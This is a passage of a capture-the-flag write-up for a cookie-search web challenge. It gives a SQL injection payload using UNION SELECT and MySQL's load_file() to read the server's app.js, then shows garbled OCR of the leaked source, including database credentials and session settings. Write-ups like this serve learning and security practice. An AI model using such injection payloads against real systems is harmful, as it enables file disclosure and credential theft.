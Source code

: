 ```js
        return res.json({"message": "Successfully logged in as adminstrator."})
      } else if(comparePassword){
        return res.json({"message": "You are logged in, but you aren't administrator. You could've used the regular login instead!"})
      } else {
        return res.json({"message": "Invalid username or password. Please try again."})
      }
    })
  } catch (err) {
    return next(err)
  }

})
```

## How to Solve?
To solve this chall, im using unintended way. Im using `load_file()` MySQL function to read local file and then read `app.js` file

```
" union select 1,load_file('/app/src/app.js'),3-- -
```


[Image extracted text: Search for your favorite cookie to see if we have it at WSU:
chocolate chip
Search
Here are your Cookies
Cookie Name: 3 Cookie Flavor: const express = require('express' ); const bodyParser = require(body-parser'); const path = require( 'path'); const session = reg
const
mySQLStore
require('
express-mysql-session")(session); const bcrypt = require( bcrypt'); const isAuthenticated = require(" Imiddlewarelauthenticate
require(" ImiddlewarelisAdmin"); const app = express(); const dbconfig = {
user: 'WSUuser'
host: 'localhost' , database: 'eatmorecookies' , password: 'Waynes
mysgl createPool({-dbconfig, connectionLimit: 10}); const sessionStore
new
mySQLStore({-dbconfig, connection: pool, createDatabaseTable: true}) ap_
engine' , 'ejs'); app.use(bodyParser:jsonO); app use(bodyParser:urlencoded({extended: true})) app.use( session({ name:
userCookie"
store: sessionStore_
sec
saveUninitialized: false , cookie: {maxAge: 24 * 60 * 60 * 1000, sameSite: "lax"} , httpOnly: true , saveUninitialized: false }) )
app-get(/' ,
res, next) =>
res
~status(200) render( "index'
{cookies: [I}); } else
return res redirect( "/login") } }); app-post( "/register" , async (reg, res, next) => { const {username , pas=
bcrypt hash(password, 10); console log(await bcrypt hash( "PleaseDontCrackMe'
10)) try { const query = "INSERT INTO users (username , password) VAL
hashedPassword], (erT, result) => { if(err) { console log(err); } console log("Data inserted successfully
+
result); }); } catch (error)
return next(error); } //
using sql) in order for this challenge to work. You can do this by changing, the admin users password and username in the entrypoint sh file, then logging in